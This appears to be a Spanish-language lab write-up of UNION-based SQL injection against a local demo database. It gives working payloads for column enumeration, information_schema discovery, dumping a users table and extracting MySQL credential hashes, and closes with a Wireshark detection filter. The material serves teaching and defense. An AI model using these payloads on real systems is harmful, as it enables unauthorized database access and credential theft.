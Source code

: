 
# Previo

Tiene que ser con un phpmyadmin antiguo.
Importamos la BBDD databases.sql


# Saber el número de columnas de la tabla que afecta al formulario
Para que una consulta UNION funcione, se deben cumplir dos requisitos clave:
- Las consultas individuales deben devolver el mismo número de columnas.
- Los tipos de datos de cada columna deben ser compatibles entre las consultas individuales.

Cómo determinar del número de columnas requeridas en un ataque UNION de inyección SQL:
- El primer método consiste en inyectar una serie de cláusulas ORDER BY e incrementar el índice de columna especificado hasta que se produzca un error. Por ejemplo, vamos probando hasta que obtengamos un error, en nuestro caso:
  ```
  999' or '1'='1' UNION SELECT * from articulos order by 4 #
  ```

- El segundo método consiste en enviar una serie de cargas útiles de UNION SELECT que especifican un número diferente de valores nulos. Vamos probando:
  ```
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL–
  ```
  La aplicación podría devolver este mensaje de error, o simplemente podría devolver un error genérico o ningún resultado. Cuando el número de valores nulos coincide con el número de columnas, la base de datos devuelve una fila adicional en el conjunto de resultados, que contiene valores nulos en cada columna.


# Consulta que muestra todos los productos
![](capturas/sql-injection-lab1.png)

![](capturas/sql-injection-lab1-2.png)

![](capturas/sql-injection-lab1-3.png)

Así descubrimos con la tabla que surte al formulario tiene 3 columnas.

Consulta SQL:
```
SELECT * from articulos where Nombre = '999' or '1'='1' UNION SELECT null, null, null from articulos #
```
Inyecciones que muestran todos los productos:
```
999' or '1'='1' UNION SELECT null, null, null from articulos #
999' or '1'='1' UNION SELECT * from articulos #
```

![](capturas/sql-injection-lab1-4.png)


# Muestra el mensaje “Hola mundo” usando SQL Injection
Consulta SQL:
```
SELECT * from articulos where Nombre = '999' UNION SELECT null, null, 'Hola mundo' from dual #
```
Inyección:
```
999' UNION SELECT null, null, 'Hola mundo' from dual #
```
![](capturas/sql-injection-lab1-5.png)


# Datos de todas las bases de datos, tablas y columnas de MySQL
Consulta SQL →
```
select information_Schema.tables.table_schema, information_Schema.columns.table_name, information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name =
information_Schema.columns.table_name;#
```
Inyección →
```
999' UNION select null, concat(information_Schema.tables.table_schema,'-->',information_Schema.columns.table_name), information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```
![](capturas/sql-injection-lab1-6.png)


# Todas las bases de datos y sus tablas de MySQL
Inyección SQL →
```
999' UNION select null, table_schema,table_name FROM information_Schema.tables;#
```
Obtenemos resultados del nombre de la base de datos con la información de sus columnas→
![](capturas/sql-injection-lab1-7.png)

Vemos otra base de datos con la información de sus columnas dentro de mysql→
![](capturas/sql-injection-lab1-8.png)


# Todos las columnas de MySQL
Inyección SQL →
```
999' UNION select null, table_name, column_name FROM information_Schema.columns;#
```
Muestra el nombre de la tabla y todas sus columnas. Vemos en concreto los resultados en las tablas usuarios y artículos →
![](capturas/sql-injection-lab1-9.png)


# Mostrar todos los datos de la tabla "demos.usuarios"
```
999' UNION SELECT * from demos.usuarios #
```
![](capturas/sql-injection-lab1-10.png)


# Obtener las contraseñas de la BD
```
999' UNION ALL SELECT null, user,password FROM mysql.user;#
```
![](capturas/sql-injection-lab1-11.png)


# Consultar el tipo y la versión de la base de datos
```
999' UNION SELECT null, null, @@version #
```
![](capturas/sql-injection-lab1-12.png)


# Todas las tablas de una BD concreta
```
999' UNION SELECT null, null, TABLE_NAME FROM information_schema.tables WHERE table_schema = 'demos'#
```
![](capturas/sql-injection-lab1-13.png)


# Todos los campos de una tabla concreta
Consulta mysql que devuelve el nombre de las columnas de una tabla de la BD:
```
SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos'
```
Consulta para realizar la inyección:
```
SELECT * from articulos where Nombre = '999' UNION SELECT null, TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos' #
```
Inyección:
```
999' UNION SELECT null, TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos' #
```
![](capturas/sql-injection-lab1-14.png)


# Análisis del tráfico con Wireshark
Aplicamos un filtro en wireshark para descubir el ataque de sql injection:
```
http.request.uri contains "SELECT" || http.request.uri contains "UNION" || http.request.uri contains "DROP" || http.request.uri contains "OR '1'='1'"
```
![](capturas/sql-injection-lab1-15.png)

